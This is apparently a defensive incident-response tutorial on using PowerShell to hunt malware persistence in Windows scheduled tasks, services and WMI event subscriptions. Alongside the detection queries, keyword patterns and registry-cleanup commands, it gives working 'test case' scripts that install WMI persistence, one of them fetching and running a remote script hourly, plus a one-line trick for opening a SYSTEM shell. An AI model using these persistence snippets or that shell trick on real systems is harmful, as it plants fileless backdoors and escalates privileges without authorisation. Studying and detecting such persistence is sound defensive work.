






Cryptominers, ransomware, and certain rogue software frequently leverage scheduled tasks and WMI to periodically execute fileless backdoors or hijack browser homepages. How do you investigate these using PowerShell?

<!--more-->

## Common Persistence Process Trees

```plain
a. services.exe  Services
b. svchost.exe -k netsvcs -p -s Schedule/taskeng.exe/dllhost.exe/taskhost.exe   Scheduled Tasks
c. WmiPreSE.exe  wmic process create cmd/powershell lateral movement 
              WMI event subscription persistence cmdline
d. scrcons.exe
              WMI event subscription persistence vbs scripts
```

## Scheduled Tasks

For typical scheduled tasks with fixed names or those placed in the root path, no fancy techniques are needed — just look in taskschd.msc.

If tasks are deeply hidden, numerous, have random names, or if existing scheduled tasks have had their launch commands modified to malicious commands, PowerShell can simplify the investigation.

Filter by executed program — for example, find scheduled tasks that execute PowerShell (older versions don't have the Get-ScheduledTask cmdlet):

```powershell
Get-ScheduledTask | ?{$_.Actions.execute -imatch ".*?powershell.exe['`"]?$" } | %{[PSCustomObject]@{name = $_.taskname; path = $_.taskpath; exe = $_.Actions.execute; cmdline = $_.Actions.arguments; user = $_.Principal.UserId}} | Format-Table
```

Filter by task state — find all running tasks (older versions don't have the Get-ScheduledTask cmdlet):

```powershell
Get-ScheduledTask | ?{$_.State -imatch "running" } | %{[PSCustomObject]@{name = $_.taskname; path = $_.taskpath; exe = $_.Actions.execute; cmdline = $_.Actions.arguments; user = $_.Principal.UserId; status = $_.State}} | ft
```

For the task hiding technique mentioned in [Deep Dive into Windows Scheduled Tasks and Malicious Hiding Techniques](), the above commands won't find the tasks. Filtering scheduled tasks through the registry reveals more complete results — for example, find all tasks that execute PowerShell (not compatible with Server 2008):

```powershell
Get-ChildItem -Recurse -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\' | ?{ $_.Property -contains "Id" } | Get-ItemProperty | %{$actions = (Get-ItemProperty -Path ('HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'+$_.Id) -ea 0).Actions;if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = ($_.PSPath -replace '.*?\\TaskCache\\Tree\\',''); id = $_.Id; index = $_.Index; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} | ?{$_.actions -imatch '.*?powershell.*?'}
```

If you already have the PID of a malicious process and want to find the corresponding scheduled task, you can query through the COM interface:

```powershell
# Evil PID
$ePid = 8372

# Initiate a COM object and connect
$TaskService = New-Object -ComObject('Schedule.Service')
$TaskService.Connect()

# Query for currently running tasks 
# 0 - the user is permitted to see. 
# 1 - 0 + Hidden
$runningTasks = $TaskService.GetRunningTasks(1)

# Get the task associated to a certain PID
$runningTasks | Where-Object{$_.EnginePID -eq $ePid} | Select-Object -ExpandProperty Path
```

Other commands for finding malicious scheduled tasks:

```powershell
# Search TaskCache Tasks
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| Get-ItemProperty | %{$actions=[System.Text.Encoding]::Unicode.GetString($_.actions, 0, $_.actions.Length); [PSCustomObject]@{path = $_.path; id = $_.PSChildName; URI = $_.URI; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} | ?{$_.actions -imatch '.*?powershell.*?'}

# use COM Object
($TaskScheduler = New-Object -ComObject Schedule.Service).Connect();$TaskScheduler.GetFolder('\Microsoft\Windows').GetTasks(0) | Select Name, State, Enabled, LastRunTime, LastTaskResult

# use WMI query
GWMI -Namespace Root/Microsoft/Windows/TaskScheduler -class MSFT_ScheduledTask -Recurse | ?{$_.TaskName -imatch "Bluetool"}
```

Find scheduled task registry entries containing malicious actions — can detect hidden scheduled tasks (applicable for Win8 and above):

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} |  ?{$_.actions -imatch '.*?(notepad|calc|powershell|wmic|regsvr).*?'}
```

For older systems like Win 2008 R2 — find malicious scheduled tasks (run as SYSTEM if investigating hidden tasks):

```powershell
schtasks.exe /query /v /fo csv |convertfrom-csv | select @{ label = "ComputerName"; expression = { $computername } }, @{ label = "Name"; expression = { $_.TaskName } }, @{ label = "Action"; expression = {$_."Task To Run"} }, @{ label = "LastRunTime"; expression = {$_."Last Run Time"} }, @{ label = "NextRunTime"; expression = {$_."Next Run Time"} }, "Status", "Author"|?{$_.action -imatch "http|wmic|regsvr|powershell"}|%{echo $_.Name}
```

For older systems like Win 2008 R2 — find and clean up residual scheduled task registry entries (run as SYSTEM; do NOT run on Win8+ as it may cause false deletions):

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} |%{if (-not(test-path -path (join-path "C:\Windows\System32\Tasks" $_.path) -PathType Leaf)) { remove-item -force -path (join-path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\' $_.path)  -erroraction SilentlyContinue; remove-item -force -path (join-path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\' $_.name) -erroraction SilentlyContinue;echo $_};}
```

For older systems like Win 2008 R2 — find residual scheduled task registry entries (not recommended for Win8+ systems):

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}} |%{if (-not(test-path -path (join-path "C:\Windows\System32\Tasks" $_.path) -PathType Leaf)) {echo $_.path};}
```

For Win10+ — batch clean scheduled tasks with actions matching the */temp/*.exe pattern (back up the registry at `HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache` in regedit before cleaning):

```powershell
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\'| %{$item = ($_|Get-ItemProperty); $actions = $item.Actions; if($actions){$actions = [System.Text.Encoding]::Unicode.GetString($actions, 0, $actions.Length)}; [PSCustomObject]@{name = $_.PSChildName; path = $item.Path; actions = ($actions -replace "[^a-z0-9A-Z:\\\._ %$\/'""]",'')}}|?{$_.actions -ilike "*\temp\*.exe"}|?{$_.name -ne '' -or $_.path -ne ''}|%{remove-item -Force -Recurse "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$($_.name)";Remove-Item -Force -Recurse "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree$($_.path)"}
```

If you've confirmed a malicious scheduled task exists but can't find it through any of the above methods (assuming you know how to use these commands), I recommend restarting the server if possible. If you can't restart the server, use psexec to switch to the SYSTEM account and restart the Task Schedule service.

> Quick way to get a SYSTEM-privilege interactive cmd terminal:
>
> ```cmd
> sc create testsvc binpath= "cmd /K start" type= own type= interact
> sc start testsvc
> ```

## Services

Find suspicious service entries:

```powershell
Get-ChildItem -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\'| %{$item = ($_|Get-ItemProperty); $actions = $item.ImagePath; if ($actions -imatch "wmic|http|powershell|cmd|notepad|ProgramData|Download|rundll32|regsvr") {echo $_;}}
```

## WMI Event Subscriptions

Here are some test cases first:

Test case 1: Launch notepad every hour

```powershell
$filterName = 'BotFilter82'
$consumerName = 'BotConsumer23'
$exePath = 'C:\Windows\System32\notepad.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 3600 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name= $filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{ Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

Test case 2: Execute a remote download script every hour

```powershell
$filterName = 'filtP1'
$consumerName = 'consP1'
$Command ="GetObject(""script:https://localhost/kkkk.vbs"")"    
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 3600 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"    
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop    
$WMIEventConsumer = Set-WmiInstance -Class ActiveScriptEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ScriptingEngine='JScript';ScriptText=$Command}    
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

### Investigation Approach 1

Suitable when certain characteristics of the `__EventFilter` are known, such as the Query statement or Name.

Query `__EventFilter` based on Query:

```powershell
$a = Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "Query LIKE '%Win32_PerfFormattedData_PerfOS_System%'"
```



Query `__FilterToConsumerBinding` based on `__EventFilter`:

```powershell
$b = Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding | ?{$_.Filter -match ($a.name -join '|')}
```



Query `__EventConsumer` based on `__FilterToConsumerBinding`:

```powershell
$b | %{Get-WmiObject -Namespace root\subscription -Class __EventConsumer -Filter "__RELPATH = '$($_.Consumer)'"}

# OR

$b | %{[wmi]"$($_.__NAMESPACE):$($_.Consumer)"}
```



### Investigation Approach 2

Suitable when everything is unknown and you want to check whether malware has used WMI events for persistence.

For persistence, three class objects must be created: `__EventFilter`, `__FilterToConsumerBinding`, and `__EventConsumer`. `__EventFilter` defines the event filter query statement (e.g., query a service named ss every 10 seconds). `__FilterToConsumerBinding` binds `__EventConsumer` and `__EventFilter` together — the Filter provides data, and the Consumer specifies the action to consume the data.

According to [MSDN](https://docs.microsoft.com/en-us/windows/win32/wmisdk/standard-consumer-classes), `__EventConsumer` has 5 types: `ActiveScriptEventConsumer`, `CommandLineEventConsumer`, `LogFileEventConsumer`, `NTEventLogEventConsumer`, and `SMTPEventConsumer`.

`ActiveScriptEventConsumer` can specify a predefined VBS script to execute when the Filter's event is triggered, while `CommandLineEventConsumer` can specify the process command line to launch when the event triggers. These two Consumers are frequently used for persistence.

So you can directly investigate registered `ActiveScriptEventConsumer` and `CommandLineEventConsumer` instances to check for persistence activity.

Query `__EventConsumer` based on script or command line characteristics:

```powershell
$a = Get-WmiObject -Namespace root\subscription -Class __EventConsumer | ?{($_.ScriptText -imatch 'GetObject.*?http') -or ($_.CommandLineTemplate -imatch 'notepad|powershell|cmd')}
```



Query `__FilterToConsumerBinding` based on the found `__EventConsumer`:

```powershell
$b = Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding | ?{$_.Consumer -match ($a.name -join '|')}
```



Query `__EventFilter` based on the found `__FilterToConsumerBinding`:

```powershell
$b | %{Get-WmiObject -Namespace root\subscription -Class __EventFilter -Filter "__RELPATH = '$($_.Filter)'"}

# OR

$b | %{[wmi]"$($_.__NAMESPACE):$($_.Filter)"}
```


